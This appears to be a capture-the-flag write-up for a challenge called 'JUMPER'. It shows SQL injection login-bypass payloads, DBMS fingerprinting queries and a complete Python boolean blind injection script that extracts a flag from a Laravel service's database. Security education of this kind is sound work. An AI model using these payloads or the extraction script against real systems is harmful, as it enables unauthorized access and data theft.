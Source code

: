 # JUMPER
### Description
```http
We're given service url
http://tokyo.ctf.protergo.party:10002
it turns out the service is running on laravel

HTTP/1.1 200 OK
Server: nginx/1.25.3
Content-Type: text/html; charset=UTF-8
Connection: close
X-Powered-By: PHP/8.1.27
Cache-Control: no-cache, private
Date: Thu, 08 Feb 2024 20:17:39 GMT
Set-Cookie: XSRF-TOKEN=eyJpdiI6InkyT1h1aVlLUkFjMWJqUkk3b0J5Vnc9PSIsInZhbHVlIjoieit6K3QwK0g1dmZoM3dlR1RrZHBya0FTMkJURVd1V0FFMXNIK1dyVjJKRnlBanlMemxsWWlKQ2hyZVluTnhWTTgrcmlhakxvOC85NTR4UW5XVHE0Y2ZmNmZwSUliRk1oM216VEFTV2VweGpNclFSYjNxcjBLbllkb0Q2cko0alMiLCJtYWMiOiJlOTA3NTNlMTk2ZTJjZWY2NDUwY2ZjNWI1N2QyMWY5YWJiZDY1ZGYzOGJhZTlmMGEwMTMwNTRhZDk4NmRmMGU0IiwidGFnIjoiIn0%3D; expires=Thu, 08 Feb 2024 22:17:39 GMT; Max-Age=7200; path=/; samesite=lax
Set-Cookie: laravel_session=8zthN5IlNn40ovTlvaIqmiTIUV2GdN2ngZpPl3JN; expires=Thu, 08 Feb 2024 22:17:39 GMT; Max-Age=7200; path=/; httponly; samesite=lax
Content-Length: 4395

```
### VULN DETECTION

![URLImage](assets/img1.png)

It appears to be a login form, let's try **SQL INJECTION** exploit by inserting **' " or `**


|username|result|
|-|-|
|test| {"success":false,"message":"OK","data":[]}            | {test: 'test'}            |
| test'          | {"message": "Server Error"}

### Payload Search


Turns out the service exploit runs using ' 
at this point we can try using common bypass login ' OR 1=1 -- and turns out we bypass the login
{"success":**true**,"message":"OK","data":[]} 
|username|result|
|-|-|
|test' OR 1=1 --|{"success":**true**,"message":"OK","data":[]}| {test: 'test'}|
|test' OR 1=2 --|{"success":**false**,"message":"OK","data":[]}


#### DBMS Detection

|Database type| 	Query|
|-|-|
|Microsoft, MySQL| 	SELECT @@version|
|Oracle| 	SELECT * FROM v$version|
|PostgreSQL| 	SELECT version() |

|username|result|
|-|-|
|' OR 1=(SELECT v$version) -- |{"message": "Server Error"}|
|' OR 1=(SELECT @@version) -- |{"success":**false**,"message":"OK","data":[]}|


the DBMS either Microsoft or MySql, we can confirm this with INFORMATION_SCHEMA DB with 
```
' OR 1=(SELECT COUNT(SCHEMA_NAME) FROM INFORMATION_SCHEMA.SCHEMATA) --
```

if we got an error it has to be Microsoft. since we got no error it has to be MySql

Now we're try to inject it with Blind boolean since we're know when 1=1 result "success":**true** and 1=2 result "success":**false**



|username|result|
|-|-|
|test' OR 1=1 --|{"success":**true**,"message":"OK","data":[]}|
|test' OR 1=2 --|{"success":**false**,"message":"OK","data":[]}|


Now we're try to inject it with Blind boolean since we're know when 1=1 result "success":**true** and 1=2 result "success":**false** 
```
' OR 1=(SELECT CASE WHEN ({})=HEX({}) THEN 1 ELSE 2 END); -- 
```
NOTE: Since the payload is base64 encoded string, we need to encode the payload to base64


## SOLUTION
```py
import requests
import base64
import string


def req (payload):
    session = requests.Session()
    headers = {
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"
    }
    url = "http://tokyo.ctf.protergo.party:10002"
    token = session.get(url+"/api/token", headers=headers).json()['data']['token'] 
    ## SINCE THE TOKEN IS ONE TIME USE THEN WE NEED TO FETCH IT
    data = {
        "username":base64.b64encode(payload.encode()).decode(),
        "password":"YXNk",
        "token":token
    }
    a = session.post(url+"/api/login", headers=headers, data=data)
    return a.json()


brute = string.ascii_letters+"{}_0123456789"
x = 1
tmp = ""
dbname = "laravel"
table = "flag"
column = "fl4g_c0lumn5"
offset = 0
BASE_INJECTION = "' OR 1=(SELECT CASE WHEN ({})=HEX({}) THEN 1 ELSE 2 END); -- "
# SELECT HEX(SUBSTR(DATABASE(), {},1))) GET DB NAME
# SELECT HEX(SUBSTR(TABLE_NAME, {},1)) FROM information_schema.TABLES WHERE TABLE_SCHEMA='{}' LIMIT 1 OFFSET {} GET TABLE NAME
# SELECT HEX(SUBSTR(COLUMN_NAME, {},1)) FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='{}' AND TABLE_NAME='{}' LIMIT 1 OFFSET {offset} # GET COLUMN
# SELECT HEX(SUBSTRING({}, {}, 1)) FROM {} LIMIT 1 OFFSET {} DUMP DATA
injection = "SELECT HEX(LENGTH({})) FROM {} LIMIT 1 OFFSET {}" # DETECTING DATA LENGTH
for i in range(10000):
    if req(BASE_INJECTION.format(injection.format(column, table, offset), f"{i}"))["success"]:
        data_length = i
        print("DATA LENGTH:",data_length)
        break

injection = "SELECT HEX(SUBSTRING({}, {}, 1)) FROM {} LIMIT 1 OFFSET {}"
while x <= data_length:
    for i in brute:
        payload = BASE_INJECTION.format(injection.format(column, x, table, offset), f"'{i}'")
        request = req(payload)
        if request["success"]:
            tmp += i
            print(tmp)
            break
    x+=1
print(tmp)
```

FLAG: **PROTERGO{f0ac7b6358cf6269dc59819c1bf3019fc6fcc2c5f5567b8187eae87d51f25e8c}**